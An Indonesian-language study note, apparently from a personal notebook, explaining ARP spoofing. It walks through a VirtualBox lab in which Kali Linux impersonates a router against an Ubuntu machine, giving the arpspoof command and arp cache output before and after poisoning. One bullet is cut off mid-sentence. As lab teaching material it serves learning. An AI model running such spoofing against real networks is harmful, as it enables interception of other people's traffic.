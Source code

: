 ```yaml
---
id: Arp Spoofing
aliases: []
tags: []
---
```


## Apa itu ARP Spoofing

- ARP atau Address Resolution Protocol adalah sebuah protokol untuk menemukan mac address dari suatu alamat IP di jaringan LAN kita
- ARP Spoofing adalah teknik menipu komputer lain dimana kita menyamar sebagai IP Address lain, dan mac address lain

## Cara melakukan ARP Spoofing

- Misi: Kali linux akan menipu ubuntu, dengan menyamar sebagai si router `172.16.1.1`

### Kali linux

1. Buka terminal
2. Cek
3. Contoh saya akan menyamar menjadi IP 172.16.1.1, dan ingin menipu(target): 172.16.1.101
4. Command: `sudo arpspoof -i eth0 -t 172.16.1.101 172.16.1.1 -r`

### Ubuntu

1. Buka terminal
2. Coba cek arp cache sebelum di spoofing

   ```bash
   kali@VirtualBox:~$ arp -n
   Address                  HWtype  HWaddress           Flags Mask            Iface
   172.16.1.103             ether   08:00:27:6e:13:6e   C                     enp0s3
   172.16.1.1               ether   08:00:27:1e:e1:b8   C                     enp0s3
   ```

   - Lalu kali linux memiliki IP akhiran `103` dan mac `6e`
   - Bisa dilihat bahwa untuk router `172.16.1.1` memiliki mac address dengan ahkhiran `b8`

3. Setelah spoofing dilakukan
   ```bash
   kyouma@kyouma-VirtualBox:~$ arp -n
   Address                  HWtype  HWaddress           Flags Mask            Iface
   172.16.1.103             ether   08:00:27:6e:13:6e   C                     enp0s3
   172.16.1.1               ether   08:00:27:6e:13:6e   C                     enp0s3
   ```
   - Bisa dilihat ip kali linux tetap `103`, dan mac `6e`, tapi mac router berubah
   - Router memiliki IP benar yaitu `172.16.1.
   - Kesimpulanya: kali linux menyamar sebagai router, dengan IP `172.16.1.1`

